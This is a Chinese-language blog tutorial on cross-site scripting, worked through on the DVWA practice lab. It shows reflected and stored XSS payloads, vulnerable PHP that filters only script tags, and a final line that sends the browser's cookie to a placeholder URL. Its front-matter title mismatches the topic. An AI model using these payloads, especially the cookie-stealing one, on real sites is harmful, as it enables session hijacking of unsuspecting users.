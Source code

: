 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      线程并发操作                 # 标题 
subtitle:   xss原理分析           #副标题
date:       2019-09-16              # 时间
author:     kevin-leak                      # 作者
header-img: img/post/android security/bg-2019-14.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - security
---
```


> 永远不要相信客户端传输的数据。

几句话介绍
----------

xss 是Cross Site Scripting的缩写，跨站脚本攻击。

输入框中注入js代码，利用js代码操作浏览器数据进行攻击，分为两种情况：

- 反射式，利用邮件或者其他形式在url里面注入js代码保存到页面中，进行攻击。
- 储存式，利用类似于评论这种可以交互显示的文本，注入js，回显在页面，进行攻击。




测试环境
--------

[dvwa的在线测试靶场](http://43.247.91.228:81/security.php) 



攻击原理
--------

### 案例

dvwa low 难度的xss攻击，http://43.247.91.228:81/vulnerabilities/xss_r/?name=kk，这里是已经提交了kk

<img src="../img/post/network security/images/xss/xss_low.png" style="z-index: 1; box-shadow: 2px 2px 6px 2px #aaaaaa; border-width:0px; border-radius:5px"  height="100px" />

可以猜测，他应该是你输入什么就显示什么，输入下面的语句试试

（有的浏览器可能有所防护，用internet export）

```html
kk<script type="text/javascript">alert("kk");</script>
```

<img src="../img/post/network security/images/xss/xss_low_alter.png" style="z-index: 1; box-shadow: 2px 2px 6px 2px #aaaaaa; border-width:0px; border-radius:5px"  height="200px" />

可以很明确的知道，此时被攻击了，但如何获取信息给攻击者呢？

既然可以写入js脚本进行弹框，也能用js写其他的代码获取浏览器的其他信息。

造成这样的原因就是，**用户的输入直接被输入**



### 类别

其实本质都一样，可以区分的就是是一次攻击，还是长久性攻击



#### 反射型

##### 案例一

可能具有的防护是stript被过滤

dvwa medium难度等级

当输入，浏览器并没有产生xss攻击

```html
<img src="javascript:alert(1)">
```

再输入

```
<img src=1 onerror=alert(1) />
```

成功

<img src="../img/post/network security//images/xss/xss_low_freflected.png" style="z-index: 1; box-shadow: 2px 2px 6px 2px #aaaaaa; border-width:0px; border-radius:5px" height="100px"/>

源码

```php
<?php  
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // 这里进行了替换
    $name = str_replace( '<script>', '', $_GET[ 'name' ] ); 
    echo "<pre>Hello ${name}</pre>"; 
} 
?> 
```

##### payload

可以产生的攻击就好比，发一份邮件，点击访问一个连接，进行文本写入，执行js

```http
http://localhost:8001/content.html?txt=hello';alert('x')//
```



#### 存储型

存储型的攻击，就是将攻击存储到了数据库，但其他用户进行访问的时候，产生攻击。

##### 案例

dvwa 中low等级的store选项的攻击

- 先看一下是怎样的环境，类似于评论

  <img src="../img/post/network security//images/xss/xss_low_store_0.png" style="z-index: 1; box-shadow: 2px 2px 6px 2px #aaaaaa; border-width:0px; border-radius:5px" />

- 输入payload

  ```html
  name：pp
  message：<img src=x onerror=alert(1)>
  ```

  <img src="../img/post/network security//images/xss/xss_low_store.png" style="z-index: 1; box-shadow: 2px 2px 6px 2px #aaaaaa; border-width:0px; border-radius:5px"/>

  可以清楚的知道，出现了xss弹框，这里就会存在攻击

- 用其他用户登入，chrome流浪器打开，发现出现弹框

  <img src="../img/post/network security//images/xss/xss_low_store_1.png" style="z-index: 1; box-shadow: 2px 2px 6px 2px #aaaaaa; border-width:0px; border-radius:5px" />



##### payload

可以通过xss攻击，获取到当前浏览器的cookie，然进行冒充，下面就是payload。

```html
<script>window.open('url'+document.cookie)</script>
```